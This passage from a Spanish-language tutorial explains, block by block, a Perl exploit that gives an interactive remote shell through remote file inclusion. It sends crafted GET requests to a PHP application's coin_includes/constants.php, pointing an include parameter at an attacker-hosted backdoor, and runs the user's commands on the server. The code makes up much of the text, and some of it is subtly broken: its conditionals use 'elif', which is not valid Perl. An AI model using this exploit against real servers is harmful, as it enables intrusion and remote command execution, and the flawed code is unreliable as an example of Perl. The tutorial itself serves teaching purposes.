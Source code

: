 Lo primero que hacemos es llamar al módulo LWP UserAgent. Seguidamente configuramos la entrada del usuario para almacenarla en **$site**, **$shellsite** y **$shellcmd**. Después tenemos una condición que valida las URL's ingresadas por el usuario. Sin esto el programa puede fallar y un enlace inválido es utilizado. Si el enlace es válido el programa ejecuta la subrutina **usg** (Que se localiza más abajo en el código de nuestro exploit). Una vez que el condicional se ha evaluado, la subrutina **header** es ejecutada (también localizada más abajo en el código del exploit).
Avancemos:

```perl
while() {
  print "[shell] \$";

  while(<STDIN>) {
    $cmd = $_;

    chomp($cmd);
```

Loops, deberías recordarlos. Tenemos un **while** para que el programa ejecute interminablemente (esto es igual a **while(1)**). Se imprime "[shell] $" para tomar el primer comando shell. Después tenemos el loop **while(\<STDIN\>)** el cual itera mientras reciba entrada del usuario. Este loop es lo último que ejecuta nuestro programa.
Sigamos:

```perl
$xpl = LWP::UserAgent->new()
  or die;
$req = HTTP::Request->new(GET=>$site.'/coin_includes/constants.php?_CCFG[_PKG_PATH_INCL]='.$shellsite.'?&'.$shellcmd.'='.$cmd)
  or die "\n\n Failed to Connect, Try again!\n";

$res = $xpl->request($req);
$info = $res->content;
$info =~ tr/[\n]/[&#234]/;
```

Auí usamos el módulo LWP UserAgent para demostrar la vulnerabilidad en el exploit. La variable **$xpl** es definida como un objeto LWP UserAgent. **$req** ejecuta la solicitud GET en la página ingresada por el usuario (**$site**), aquí el código vulnerable es puesto al de **$site**. **$shellsite**, es donde se encuentra el backdoor, **$shellcmd** (la variable del comando de shell php) y **$cmd** es el comando que el usuario quiere ejecutar en el server junto con el backdoor. El contenido devuelto como respuesta a nuestra solicitud GET es almacenado en la variable **$info**.

```perl
if (!$cmd) {
  print "\nEnter a Command\n\n";

  $info = "";
}
elif ($info =~ /failed to open stream: HTTP request failed!/ || $info =~ /: Cannot execute a blank command in <b>/) {
  print "\nCould Not Connect to cmd Host or Invalid Command Variable\n";

  exit;
}
elif ($info =~ /^<br\/>.<b>Warning/) {
  print "\nInvalid Command\n\n";
};
```


[activestate-url]: http://www.activestate.us/
[DzSofts-Perl-Editor]: http://www.dzsoft.com/